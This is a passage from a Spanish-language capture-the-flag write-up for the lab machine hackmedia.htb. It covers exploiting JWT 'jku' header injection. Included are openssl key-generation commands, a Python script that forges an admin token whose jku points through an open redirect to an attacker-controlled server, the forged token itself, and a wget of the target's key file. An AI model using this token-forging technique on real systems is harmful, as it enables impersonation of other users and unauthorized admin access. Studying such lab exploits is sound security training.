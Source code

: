 Puesto que la clave que se utiliza para verificar el token se extrae del certificado ubicado en la URI (jku), podríamos intentar generar un nuevo token malicioso que tenga como URI una clave alojada en nuestro servidor para así hacernos pasar por otro usuario.

# Explotación

Primeramente crearemos las claves con las que verificaremos y crearemos el token.

```plaintext
❯ openssl genrsa -out keypair.pem 2048
❯ openssl rsa -in keypair.pem -pubout -out publickey.crt
❯ openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```
* publickey.crt > clave pública
* pkcs8.key > clave privada

Ya teniendo la clave pública y privada podremos crear un token malicioso. Utilizaremos el siguiente script para generarlo, este script manipula la URI del parámetro `jku` asignandole una URL con la pueda llegar a conectarse a nuestro servidor ayudandose de la ruta que encontramos al principio, asigna el valor admin al parámetro `user` y, finalmente firma el token con el par de claves.

```python
#!/usr/bin/python3

from email import header
from jwcrypto import jwk, jwt

with open("keypair.pem", "rb") as pemfile:
    key = jwk.JWK.from_pem(pemfile.read())

Token = jwt.JWT(header={"alg": "RS256","jku": "http://hackmedia.htb/static/../redirect?url=10.10.14.242:8080/jwks.json"},claims={"user":"admin"})
Token.make_signed_token(key)
print(Token.serialize())
```
Este sería nuestro token malicioso:

```plaintext
eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdD91cmw9MTAuMTAuMTQuMjQyOjgwODAvandrcy5qc29uIn0.eyJ1c2VyIjoiYWRtaW4ifQ.qRR4zH6-LJJuOmxVUIyuEzsW4ijqm1VnmUhDSZRVLSIOKFpC8Om5HssQGdLma3d-Zkw8gkISGy0mQ7J8hG9ODH1kinPnIL9u5BL4pyztmMUUqHXqIQ11EVmxH2gwL4laHKg86t_VZ3TwoIp7ruDbZ_Aaqu1ESPN0LpBevqKu54BgnFgogSqt8ruzzlU5IuQrje3zPf7g1QSr7sgARwIL5qRf19atR_lz-l-V411HZ5ItCRlsyr__r2QO3DtD03OuF2Wk8MJH4F1LjxEwB-M0v6W6JQf-bxx9AAoA401FBoP7_wES1T-SFjruU2gF8mHGdgk-5lWVnvS5R4zrwS8I8Q
```

Ahora generaremos el archivo que validará el token y que será apuntado por el parámetro `jku` de nuestro token malicioso. Para ello primero nos traeremos el que trae la máquina víctima.

```plaintext
❯ wget http://hackmedia.htb/static/jwks.json
```

Este fichero será al que apuntemos con el parametro `jku` para que nos valide el token, primero necesitaremos sustituir los parametros `n` y `e` de nuestra clave pública por los de el fichero jwks.json, para conseguir `n` y `e` de la clave pública utilizaremos el siguiente script:
